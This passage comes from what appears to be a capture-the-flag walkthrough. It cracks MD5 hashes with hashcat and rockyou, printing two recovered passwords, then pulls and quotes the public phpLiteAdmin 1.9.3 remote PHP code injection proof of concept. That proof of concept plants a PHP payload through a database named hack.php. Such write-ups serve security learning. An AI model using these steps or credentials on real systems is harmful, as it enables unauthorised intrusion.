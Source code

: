 ```bash
root@kali:~$ zcat /usr/share/wordlists/rockyou.txt.gz > rockyou.txt
```

```bash
root@kali:~$ hashcat -a 0 -m 0 hashes.phplite rockyou.txt
...
96781a607f4e9f5f423ac01f0dab0ebd:zico2215@
653f4b285089453fe00e2aafac573414:34kroot34 
```

In seconds hashcat managed to crack the MD5 hashes, with this credentials it was not possible to access to the server via SSH.

A Remote Code Injection vulnerability was discovered for phpLiteAdmin 1.9.3.

```bash
root@kali:~$ searchsploit phpliteadmin 1.9.3                            
----------------------------------------------------------- -------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- -------------------------
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection             | php/webapps/24044.txt
----------------------------------------------------------- -------------------------
```

We copy the exploit to our current directory.

```bash
root@kali:~$ searchsploit -m php/webapps/24044.txt
```


## Exploitation
### Remote PHP Code Injection

We follow the instructions described in the exploit.

```bash
root@kali:~$ cat 24044.txt
...
Proof of Concept:

1. We create a db named "hack.php".
(Depending on Server configuration sometimes it will not work and the name for the db will be "hack.sqlite". Then simply try to rename the database / existing database to "hack.php".)
The script will store the sqlite database in the same directory as phpliteadmin.php.
Preview: http://goo.gl/B5n9O
Hex preview: http://goo.gl/lJ5iQ

2. Now create a new table in this database and insert a text field with the default value:
<?php phpinfo()?>
Hex preview: http://goo.gl/v7USQ

3. Now we run hack.php
```

